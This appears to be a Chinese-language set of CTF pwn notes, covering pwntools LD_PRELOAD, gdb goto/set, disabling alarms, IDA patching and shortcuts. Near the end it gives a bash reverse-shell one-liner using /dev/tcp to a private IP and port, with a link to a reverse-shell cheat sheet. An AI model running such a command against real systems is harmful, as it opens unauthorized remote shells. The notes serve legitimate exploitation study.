 ## process()环境变量
想要用出题方的libc可以用
env = {"LD_PRELOAD": "./libc.so.6"}
env=env

来设置环境变量

## gdb_goto
goto 直接跳到某行
中间的代码相当于没有执行
可以在调试的时候跳过sleep之类的函数。

## gdb_set
可以在调试的时候通过set来改变指定未知的值
可以是地址可以是参数
例如
```
set $rax=0x10
set *0xffffce40=0x20
```
## gdb_SIGALRM
直接调试的时候可以关闭alarm()
handle SIGALRM nopass
## ssh
`sudo apt-get install openssh-server`


## alarm
IDA patch 掉 alarm,system("sleep ?")
#patch之前改一下option->general->opcode
用IDA->edit->patch program->change ...->apply

## IDA_快捷键
  rename====>n
  undef=====>u
  xref======>x
  goto======>g
  def=======>y
  search string=>option+t
  change sp==>option+k
## GDB 查看结构体大小
p sizeof(_IO_FILE)

## 反弹shell
[各种环境下反弹shell][2]
```sh
/bin/bash -c 'bash -i >/dev/tcp/192.168.74.132/4444 0>&1'
```


[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: https://www.jianshu.com/p/3a2df9b7c353
[9]: https://www.cyberpunk.rs/ghidra-software-reverse-engineering-framework